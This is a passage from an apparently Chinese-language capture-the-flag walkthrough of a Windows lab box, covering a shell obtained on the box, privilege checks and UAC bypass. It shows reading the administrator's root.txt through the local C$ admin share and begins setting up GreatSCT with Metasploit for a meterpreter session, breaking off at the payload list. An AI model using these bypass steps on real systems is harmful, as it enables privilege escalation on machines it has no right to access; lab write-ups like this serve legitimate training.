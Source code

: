 ![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aecN6KicZ97lkGjuNjXHbw6PoR358Wmq5qNfLFy0JWkND4hvK8NETIQjg/640?wx_fmt=png)成功获得 shell![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99ae5Q0FfIm9kiaveicHok2jA3LY8uTEdJ8m18frAGlxPYjd1uWJB24wjTpQ/640?wx_fmt=png)

0x04 UAC 绕过
-----------

### 受限环境

查看当前用户权限

```
net user batman<br style="box-sizing: border-box;">
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aebt0nOADPNTur431F1BhwNBSocibibwY49iaiaPMBh2kdlrQ5ySDE5kpdEw/640?wx_fmt=png)该用户拥有管理员和远程管理员权限，但是读取 root.txt 时无法访问 administrator 的桌面

```
dir c:\Users\administrator\Desktoptype c:\Users\administrator\Desktop\root.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeXJFjNWG5nkYo7PPO5AFEpYkdzkmCJL7qfq7Wae0FMJU2WUJcRurC7A/640?wx_fmt=png)查询权限，判断当前环境为受限状态且 UAC 状态已经启用![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeTrlrXkDU1WBEWtbVswCnHdCJtZGJjo6FxTPPJOMz5Gdu4qQuLzXnXQ/640?wx_fmt=png)

### 通过本地共享读取 root.txt

```
type \\localhost\c$\users\administrator\desktop\root.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeJf41yKFvpdlLlUZuqHep6v3roAQdveOqiaJ6IV9LoYK7AsRsSEibq9tQ/640?wx_fmt=png)成功拿到第二个 flag

### 借助 msf 绕过 UAC 读取 root.txt

#### 建立 meterpreter 会话

由于绕过大多数 UAC 都需要交互过程，使用 msf 能够有效帮助我们绕过 UAC。借助 GreatSCT 来获取一个 meterpreter _**工具地址：https://github.com/GreatSCT/GreatSCT**_

```
cd setup./setup.sh
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aedYHzqrcOAsicRibcsKqx8qEpADpk6coNaIPFNXeZ5KG1tKU6D1QzHCmw/640?wx_fmt=png)建立完成后，使用 GreatSCT.py 查看相关命令

```
python3 GreatSCT.py<br style="box-sizing: border-box;">
```

使用 bypass

```
use bypass<br style="box-sizing: border-box;">
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeib1ibz78OpV9EWbgbI1JoBDJPZAxzUMz8QhZD8Gq4j9CAPAeJkUoBKRA/640?wx_fmt=png)查看反弹脚本

```
list<br style="box-sizing: border-box;">
```
